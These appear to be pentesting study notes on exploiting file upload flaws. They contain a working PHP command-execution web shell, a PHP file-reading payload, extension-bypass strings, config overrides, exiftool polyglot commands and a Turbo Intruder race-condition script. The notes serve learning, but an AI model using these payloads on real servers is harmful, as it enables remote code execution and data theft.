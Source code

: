 # File upload vulnerabilities  
## Web shell
The worst scenario is when server accepts php files and executes them.
In such case we can create shel or read arbitrary files:    
```
<?php echo file_get_contents('/path/to/target/file'); ?>
```
Execute command:
```
<?php echo system($_GET['command']); ?>
GET /example/exploit.php?command=id HTTP/1.1
```

## Flawed file type validation
Sometimes servers are checking not real filetype of uploaded file, but only Content-Type header in the request. So wee can upload arbitrary file and hide it behind Content-Type: image/jpeg.  

## Preventing file execution in user-accessible directories
Sometimes directories where we are uploading scripts have some restrictions and we won't be able to execute our script after uplaoding it.  
But we can try to upload it to another directory (by changing filename in multipart/form-data for example)  
We can uplaod script to ../ directory (or ..%2F)  

## Blacklisting file extensions  
If server blacklists .php files, we can try to use less common files that are able t oexecute code (.php5, .shtml etc)  
Also sometimes servers sue config files which we potentially would be able to modify. If we are able to uplaod custom config files such as:
```
/etc/apache2/apache2.conf
LoadModule php_module /usr/lib/apache2/modules/libphp.so
AddType application/x-httpd-php .php

web.config
<staticContent>
    <mimeMap fileExtension=".json" mimeType="application/json" />
</staticContent>
```
We would be able to disable file restrictions and upload and execute our shells.  
We can modify .htaccess file to map some extensions as php files:
```
AddType application/x-httpd-php .l33t
```

## Obfuscation
We can bypass restrictions via file extension obfuscation:
```
.pHp
exploit.php.jpg
exploit.php.
exploit.asp;.jpg
exploit.asp%00.jpg
url-encoding and double-encoding
exploit%2Ephp
multibyte unicode characters which could be converted to null bytes and dots
xC0 x2E
xC4 xAE
xC0 xAE

```

## Flawed validation of file contents
Some servers check file contents, not only their extension or content-type. To bypass this we can try to add some fingerprint to our exploit (for example JPEG always starts with bytes FF D8 FF).  
Also with tools such as ExifTools we can create JPEG file containing malicious code.  
```
exiftool -DocumentName="<h1>letmein<?php echo file_get_contents('/home/carlos/secret'); ?><h1>" image.jpg
OR
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```

## File uplaod via race condition  
Race condition appears when server gets some file into filesystem and keeps it for some time (couple of seconds) before removing it or placing in some another place  
We can access file during this small time. This vulnerability is hvery hard to detect  
For such goals we can use turbo Intruder wwith next script (based on single-packet race condition):
```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```
This will send 5 GET requests following our POST request. Even if files are handled correctly, but they are kept for some second on server, we are able to execute code.  
We can extend time during which time file is proceeded on server uploading large files.  

## File upload without RCE
If we can't expoloit server-side, we can create attacks on user. If we are able uplaod HTML or SVG files, we potentially create stored XSS.  

## Exploiting via PUT  
Even if server doesn't seem to have uplaod function but supports PUT method, we can try to PUT exploit manually to some location  
We can check this possibility with help of OPTIONS request  
